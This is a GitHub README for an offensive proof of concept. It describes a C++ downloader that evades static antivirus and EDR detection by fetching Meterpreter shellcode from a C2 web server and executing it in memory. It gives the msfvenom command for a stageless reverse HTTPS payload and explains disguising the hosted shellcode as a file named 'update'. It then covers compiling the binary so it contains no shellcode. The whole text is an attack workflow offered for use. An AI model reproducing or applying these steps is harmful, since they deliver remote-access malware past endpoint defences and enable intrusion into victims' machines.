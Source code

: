 # Shellcode-Downloader-CreateThread-Execution
Also if you use for example **syscalls (nativ APIs)** to execute C2-shellcode with a .exe, you often have the problem, that 
your **compiled .exe** gets **statically flagged by the AV/EPP/EDR**. Many times the reason for this is, that the **C2-shellcode** 
has to be directly **included as string or as a .bin ressource** in the c++ POC and by that the well known C2-shellcode 
(e.g. Metasploit-, CobaltStrike-, Empire Shellcode etc.) is statically flagged by the AV/EPP/EDR. 
This means, no matter which clever technique you would use to bypass prevention/detection in context of API-Hooking, Kernel Callback Function etc. 
your .exe POC will get flagged before you can ever execute it. Also if you want to **compile a c++ POC** in Visual Studio it isn't possible to **include stageless shellcode** in a char string, because the string is **limited in length** (always stay stageless if possible 😉). 

From my experience, depending on the AV/EPP/EDR it isn't often the most important thing to only care about how to bypass the dynamically prevention/detection of an AV/EPP/EDR. At least equally important is to care about how could I bypass the statically prevetion/detection, to maybe break the chain of a maybe following connected dynamicall or in-memory prevention/detection. 

**This POC gives you the possibility to compile a .exe to completely avoid statically detection by AV/EPP/EDR of your C2-shellcode and download and execute your C2-shellcode which is hosted on your (C2)-webserver.**

![image](https://user-images.githubusercontent.com/50073731/160274700-173f342f-1fd8-4080-8e78-d832129a99c6.png)

By that POC we have the advantage, that the shellcode for the C2 reverse shell isn't included as string or as .bin file in the POC.
Trough that, we don't have the problem of statically detection of the C2 shellcode by an AV/EPP/EDR, because the complete C2-shellcode is hosted 
on a webserver. 



**1. Creating stageless shellcode with MSF-Venom**

**kali>** msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.0.1 LPORT=443 -f c --arch x64 --platform windows -o /tmp/meterx64.c

![image](https://user-images.githubusercontent.com/50073731/160274011-82fd0f13-a52c-4f90-93bd-01d39a9872d9.png)



**2. Hosting file with MSF-stageless shellcode on webserver**

Based on the code in the c++ POC the hosted shellcode must be in HEX-Format. To bring the whole MSF-shellcode in one line, you can use the
the line operation function in Notpad++ join lines and then remove not spaces and the double quotes in the string. Only at the beginning and the end
we need from the HEX-shellcode string we need double quotes.

![image](https://user-images.githubusercontent.com/50073731/160274172-4a793332-db0d-465f-b6e9-aa3cf024c8a3.png)

![image](https://user-images.githubusercontent.com/50073731/160274319-9b4284a3-7368-45f1-9eac-fd8456145d5e.png)

![image](https://user-images.githubusercontent.com/50073731/160275882-e1ef7a31-4c07-4fd8-8d51-f1840b9ade89.png)

At the end you can save the file with the stageless MSF-shellcode as a file without any filetype ending, we call it for example **update** and then upload the MSF-Shellcode File on your webserver of choice. 

**3. Change the link in the c++ POC to your MSF-payload**
In this step we change the link in the POC to the link of the webserver on which we have hosted our stageless MSF-Shellcode and compile
it in **Visual Studio as Release x64**.

![image](https://user-images.githubusercontent.com/50073731/160274705-7c608ab1-1137-4f0f-8152-8a722de6a270.png)

**After compiling with VS you have a x64 Binary, which do not contain any C2-shellcode string or .bin file at all. After execution 
the C2-shellcode is downloaded and executed in the memory of the targeted host.** 
At the moment the execution of the shellcode by using Create Thread is done with WIN32 APIs.
But despite not using syscalls, from my past experience the POC will do a nice job 😉.
